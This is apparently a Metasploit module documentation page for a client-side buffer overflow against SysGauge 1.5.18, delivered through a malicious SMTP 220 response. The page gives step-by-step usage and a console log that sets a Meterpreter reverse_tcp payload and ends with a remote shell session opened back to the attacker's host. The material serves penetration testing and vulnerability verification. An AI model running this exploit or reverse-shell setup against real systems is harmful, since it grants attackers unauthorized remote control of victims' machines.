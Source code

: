 ## Vulnerable Application

  This module will setup a SMTP server expecting a connection from SysGauge 1.5.18
via its SMTP server validation. The module sends a malicious response along in the
220 service ready response and exploits the client resulting in an unprivileged shell.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smtp/sysgauge_client_bof```
  4. Do: ```set payload windows/meterpreter/reverse_tcp```
  5. Do: ```set LHOST ip```
  6. Do: ```run```
  7. The user should put your `SRVHOST` or other applicable IP address in the SMTP configuration
in the program, and hit the "Verify Email ..." button.
  8. You should get a shell.

## Scenarios

  Here is how to typically execute the module. Note that the client must input this SMTP server
  information under SysGauge Options and hit the "Verify Email ..." button.

  ```
  msf > use exploit/windows/smtp/sysgauge_client_bof
  msf exploit(sysgauge_client_bof) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(sysgauge_client_bof) > set lhost 10.0.0.1
  lhost => 10.0.0.1
  msf exploit(sysgauge_client_bof) > exploit
  [*] Exploit running as background job.
  msf exploit(sysgauge_client_bof) >
  [*] Started reverse TCP handler on 10.0.0.1:4444
  [*] Server started.
  [*] Client connected: 10.0.0.128
  [*] Sending payload...
  [*] Sending stage (957487 bytes) to 10.0.0.128
  [*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.128:49165) at 2017-03-14 23:15:04 -0500
  ```
